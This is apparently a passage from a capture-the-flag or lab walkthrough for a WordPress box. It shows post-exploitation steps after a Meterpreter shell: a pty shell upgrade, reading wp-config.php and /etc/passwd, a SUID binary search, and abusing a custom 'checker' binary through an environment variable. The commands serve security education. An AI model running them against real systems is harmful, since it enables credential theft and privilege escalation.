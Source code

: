When Getting the metepreter shell:
```bash
meterpreter> getuid
ls
```

Shell
```bash
ls
```

ctrl Z (optional)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Proper shell:
```bash
cat wp-config.php
```

### 4. Post-Exploitation

4.1. Escalating Privileges

Check for SUID binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Analyze and exploit checker:
```bash
export admin="rse"
ltrace /usr/sbin/checker
```

Output:
```bash
getenv("admin")                                                                = nil
puts("Not an Admin"Not an Admin
) 
```

```bash
export admin="rse"

ltrace /usr/sbin/checker

exit

cat /etc/passwd | grep root

id

cat /etc/passwd | grep www-data

/usr/sbin/checker
```
